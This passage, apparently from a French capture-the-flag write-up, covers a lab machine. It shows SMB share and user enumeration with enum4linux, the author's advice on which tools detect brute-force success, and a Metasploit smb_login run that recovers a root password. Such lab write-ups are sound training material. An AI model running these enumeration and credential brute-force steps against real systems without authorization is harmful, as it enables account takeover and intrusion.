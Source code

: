 ```python

        except KeyboardInterrupt:
            print("stopped at", word)
            break

        if i % 5000 == 0:
            print("Status:", i)
```

Sans résultats :'(   

En supposant que le code source de ce service est disponible sous la racine web j'ai cherché des fichiers avec des suffixes py, c, pl... nope.  

Elegance
--------

Côté SMB on peut compter sur Metasploit ou enum4linux pour l'énumération. On voit bien un partage *scripts* mais on ne dispose pas d'accès :  

```plain
[+] Attempting to map shares on 10.1.1.12
//10.1.1.12/scripts Mapping: DENIED, Listing: N/A
//10.1.1.12/IPC$    [E] Can't understand response:
```

Il semble aussi qu'il y ait un utilisateur *tom* sur le système :  

```plain
 ====================================================================
|    Users on 10.1.1.12 via RID cycling (RIDS: 500-550,1000-1050)    |
 ====================================================================
[I] Found new SID: S-1-22-2
[I] Found new SID: S-1-5-21-1573118214-49521899-4168781395
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1001 Unix User\tom (Local User)
```

Là encore toutes les tentatives de brute-forcer ce compte en SSH ou SMB n'ont pas abouties :|   

Il fallait finalement se mettre à brute-forcer le compte SMB de root. Mais là où c'était réellement frustrant c'est que Hydra, Ncrack ainsi que le script NSE de Nmap ne sont pas parvenus à voir l'authentification réussie quand elle avait lieu :-/   

En bref pour du brute-force SMB privilégiez Metasploit ou Medusa :  

```plain
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.1.1.12:445         - 10.1.1.12:445 - Starting SMB login bruteforce
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:root',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:123456',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:12345',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:123456789',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:password',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:iloveyou',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:princess',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:1234567',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:rockyou',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:12345678',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:abc123',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:nicole',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:daniel',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:babygirl',
[-] 10.1.1.12:445         - 10.1.1.12:445 - Failed: '.\root:monkey',
[+] 10.1.1.12:445         - 10.1.1.12:445 - Success: '.\root:lovely'
```